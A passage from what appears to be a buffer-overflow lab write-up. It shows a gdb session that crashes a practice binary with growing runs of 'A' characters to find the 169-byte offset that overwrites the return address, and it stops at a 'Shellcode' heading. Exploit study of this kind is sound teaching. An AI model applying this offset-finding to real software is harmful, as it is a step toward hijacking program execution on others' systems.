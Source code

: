```sh
Program received signal SIGSEGV, Segmentation fault.
0x0000000000414141 in ?? ()
(gdb) run $(python -c "print 'A'*(154-5+6+12)")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user1/overflow-4/buffer-overflow-2 $(python -c "print 'A'*(154-5+6+12)")
new word is doggoAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x0000000041414141 in ?? ()
(gdb) run $(python -c "print 'A'*(154-5+6+13)")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user1/overflow-4/buffer-overflow-2 $(python -c "print 'A'*(154-5+6+13)")
new word is doggoAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x0000004141414141 in ?? ()

Program received signal SIGSEGV, Segmentation fault.
0x0000004141414141 in ?? ()
(gdb) run $(python -c "print 'A'*(154-5+6+14)")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user1/overflow-4/buffer-overflow-2 $(python -c "print 'A'*(154-5+6+14)")
new word is doggoAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x0000414141414141 in ?? ()
(gdb) run $(python -c "print 'A'*(154-5+6+15)")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user1/overflow-4/buffer-overflow-2 $(python -c "print 'A'*(154-5+6+15)")
new word is doggoAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x00000000004005ab in concat_arg ()
```

Once we have 6 x A's (`\x41`) in the return address when the application crashes we have successfully, fully overwritten the EIP (Extended Instruction Pointer i.e. the "what do I execute next?" instruction register). You can see if we go `1 byte` over, the crashed EIP register is showing no `A`'s at all, so our payload has over shot it.

`Payload = 154-5+6+14 = 169` so our entire payload going forward, **must** always be a total of `169 bytes` to correctly overwrite the EIP so it points to our shellcode.

### Shellcode
